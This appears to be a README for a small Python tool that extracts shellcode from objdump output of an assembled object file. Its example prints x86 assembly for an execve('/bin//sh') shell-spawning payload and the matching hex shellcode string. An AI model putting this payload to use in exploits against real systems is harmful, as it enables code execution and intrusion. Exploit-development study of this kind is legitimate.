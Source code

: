 ShellcodeExtractor

Python script for extracting shellcode from object file.

Write assembly code, product an object file and the use this script in pipeline to objdump.

Example:

Let's write spwaning shell assembly code in spawnshell.asm ( NASM )

	xor eax, eax,
	push eax
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	mov al, 11
	int 0x80

Launch : nasm -f elf spawnshell.asm -o output.o

Now we can use our script: objdump -d output.o | python shellcode_extractor.py

The output is:	\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80



